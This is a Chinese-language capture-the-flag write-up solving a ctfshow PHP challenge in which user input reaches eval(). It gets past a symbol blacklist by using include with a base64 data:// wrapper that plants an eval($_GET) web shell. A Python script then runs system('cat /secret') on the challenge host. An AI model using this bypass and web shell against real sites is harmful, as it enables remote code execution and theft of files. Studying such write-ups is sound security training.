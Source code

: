 先看代码
~~~
<?php


if(check($code)){

    eval('$result='."$code".";");
    echo($result);    
}

function check(&$code){

    $num1=$_POST['num1'];
    $symbol=$_POST['symbol'];
    $num2=$_POST['num2'];

    if(!isset($num1) || !isset($num2) || !isset($symbol) ){
        
        return false;
    }

    if(preg_match("/!|@|#|\\$|\%|\^|\&|\(|_|=|{|'|<|>|\?|\?|\||`|~|\[/", $num1.$num2.$symbol)){
        return false;
    }

    if(preg_match("/^[\+\-\*\/]$/", $symbol)){
        $code = "$num1$symbol$num2";
        return true;
    }

    return false;
}

~~~
从题目代码来看，是输入3个值，分别是num1、符号值、num2\
然后过滤了一大堆符号，这种就是最直接的提示，没过滤哪个，就用哪个\
然后把3个值拼接起来进行执行\
既然是eval就是代码执行，但是又不能用括号，那么只能用不用括号的函数了，那么答案很显然\
php中不需要括号使用的函数，叫做语言结构，常见的有include、require、echo等

那么思路有了，要使用include来执行代码，那么显而易见，肯定要用到伪协议了\
我们只需要构造出一个data的伪协议看看\
正常的伪协议包含是这样的
~~~
include "data://text/plain,<?php phpinfo();?>"
~~~
但是呢，题目不能用括号和< 随意需要对执行的代码进行编码\
使用data协议的第二种写法
~~~
include "data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+"
~~~
观察符号，刚好都在可以用的范围之内\
可以拆分给三个变量分别复制
~~~
$num1 = "include data:/";
$symbol = "/";
$num2 = "text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+"

$num1$symbol$sum2="include data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+"
~~~
放到eval里面后，就能代码执行了,使用更优雅的写法
~~~
num1=include "data:ctfshow&symbol=/&num2=b;base64,PD9waHAgZXZhbCgkX0dFVFsxXSk7Pz4";
~~~
python 脚本如下：
~~~
import requests

url="http://ce01537e-72f8-4ac1-adc8-d034957ad28b.challenge.ctf.show/"

def flag():
    data={
        "num1": 'include "data:ctfshow',
        "symbol": "/",
        "num2": 'b;base64,PD9waHAgZXZhbCgkX0dFVFsxXSk7Pz4";'
    }
    response=requests.post(url=url+"?1=system('cat /secret');die();",data=data)
    print(response.text)

if __name__=='__main__':
    flag()
~~~
